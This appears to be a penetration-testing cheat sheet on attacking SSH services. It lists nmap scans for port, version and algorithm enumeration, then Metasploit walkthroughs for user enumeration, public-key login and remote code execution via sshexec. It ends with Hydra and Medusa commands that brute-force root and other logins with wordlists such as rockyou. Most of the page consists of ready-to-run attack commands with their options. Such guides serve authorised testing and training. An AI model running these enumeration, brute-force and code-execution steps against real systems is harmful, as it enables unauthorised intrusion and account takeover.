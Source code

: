 # SSH ENUM  PORT -22
----------------------------------------------------------------------------------------------------------------------------------------------------

• SSH stands for secure socket shell or secure shell. Commonly used port number is 22.

• It is a network protocol. That gives users a secure way to access a computer over the unsecure or open network.

## SSH Port Scanning
```
nmap -v -p 22 <IP>
```
PORT STATE SERVICE           
22/tcp open ssh

-v: Increase verbosity level (use -vv or more for greater effect)

-p <port ranges>: Only scan specified ports
Ex: -p22; -p1-65535; 

## SSH Version Scanning
```
nmap -v -sT -sV -p 22 192.168.56.105 
```
PORT   STATE SERVICE VERSION           
22/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4 (Ubuntu Linux; protocol 2.0)
           
-v: Increase verbosity level (use -vv or more for greater effect)
           
-sS/sT/sA/sW/sM: TCP SYN/Connect()/ACK/Window/Maimon scans
           
-sV: Probe open ports to determine service/version info
           
-p <port ranges>: Only scan specific portsEx: -p22; -p1-65535; 
           
### Scripts to enumerate SSH
```
cd /usr/share/nmap/scripts
```
```
ls | grep ssh
```
ssh2-enum-algos.nse
           
ssh-auth-methods.nse
           
ssh-brute.nse
           
ssh-hostkey.nse
           
ssh-publickey-acceptance.nse
           
ssh-run.nse
           
sshv1.nse
           

SSH Scanning by using predefined script 

The script for this is called ssh2-enum-algos and run against an OpenSSH server.
```
nmap -p22 -n -sV --script ssh2-enum-algos <IP>
```
# Exploit SSH with Metasploit

## Enumeration of users by Metasploit Framework

Metasploit Framework is preinstalled on Kali Linux. You can run framework by using below command:

### msfconsole
You can search different auxiliary and exploit modules by using the “search” operator. After identifying, you can use the “use” operator to run those modules against the target
search ssh_enumusers
          This module uses a malformed packet or timing attack to enumerate users on an OpenSSH server

```
msfconsole
```
```
msf6 > use auxiliary/scanner/ssh/ssh_enumusers
```
```
msf6 auxiliary(scanner/ssh/ssh_enumusers) > show options
```
```
msf6 auxiliary(scanner/ssh/ssh_enumusers) > set RHOST 192.168.56.105
```           
RHOST => 192.168.56.105
```
msf6 auxiliary(scanner/ssh/ssh_enumusers) > set USER_FILE /usr/share/wordlists/metasploit/namelist.txt
```
USER_FILE => /usr/share/wordlists/metasploit/namelist.txt
```
msf6 auxiliary(scanner/ssh/ssh_enumusers) > set THREADS 25
```
THREADS => 25
```
msf6 auxiliary(scanner/ssh/ssh_enumusers) > show actions
```
```
msf6 auxiliary(scanner/ssh/ssh_enumusers) > exploit
```

### SSH login using pubkey
```           
use auxillary/scanner/ssh /ssh_login_pubkey
```
```
auxiliary (scanner/ssh /ssh_login_pubkey)>set rhosts
```
```          
auxiliary (scanner/ssh /ssh_login_pubkey)>set username ignite
```
```
auxiliary (scanner/ssh /ssh_login_pubkey)>set key_path /root/.ssh/id_rsa
```
```
auxiliary (scanner/ssh /ssh_login_pubkey)>exploit
```
### SSH User Code Execution
```
msf > use exploit/multi/ssh/sshexec
```
```
msf exploit(sshexec) >set rhosts
```
```
msf exploit(sshexec) >set username ignite
```
```
msf exploit(sshexec) >set password 123
```
```
msf exploit(sshexec) >set srvhost
```
```
msf exploit(sshexec) >exploit
```
# Bruteforce username and password
If the ssh port is open, we can try to bruteforce username and password.

There are various tools for brute force SSH 

## Hydra 
Hydra is a parallelized network login cracker built in various operating systems like Kali Linux, Parrot and other major penetration testing environments. ... Hydra is commonly used by penetration testers together with a set of programmes like crunch, cupp etc, which are used to generate wordlists

```           
hydra -l root -P /opt/password.txt (ip) ssh -t 4
```
```
hydra -L /opt/username.txt -P /opt/password.txt (ip) ssh -t 4
```
```
hydra -vV -L /opt/username.txt -P /opt/password.txt (ip) ssh -t 4
```
hydra -L logins.txt -P pws.txt -M targets.txt ssh
Hydra -l user -P /usr/share/wordlists/rockyou.txt ssh://IP
           
-l LOGIN -L FILE login with LOGIN name, or load several logins from FILE
           
-p PASS or -P FILE try password PASS, or load several passwords from FILE
           
-t TASKS run TASKS number of connected in parallel per target (default: 16)
           
-v / -V / -d verbose mode / show login+pass for each attempt / debug mode
           
## Medusa 
Medusa is a modular, speedy, and parallel, login brute-forcer. It is a very powerful and lightweight tool. Medusa tool is used to brute-force credentials in as many protocols as possible which eventually lead to remote code execution.
```
medusa -u root -p /opt/password.txt -h <IP> -M ssh
```
```
medusa -u root -P /opt/password.txt -h <ip> ssh -t 4 
``` 
```
medusa -u <USERNAME> -P  /user/share/wordlists/rockyou.txt  -M ssh -h <IP>
```
```
medusa -U  /user/share/wordlists/rockyou.txt -p mickey  -M ssh -h <IP>
```
-M [TEXT] : Name of the module to execute (without the .mod extension)
           
-h [TEXT] : Target hostname or IP address
           
-U [FILE] : File containing usernames to test
           
-P [FILE] : File containing passwords to test
           
-t [NUM] : Total number of logins to be tested concurrently

#### Reference : 
https://github.com/vanhauser-thc/thc-hydra 
           
https://en.kali.tools/all/?tool=1343
           
https://github.com/nccgroup/ssh_user_enum
           




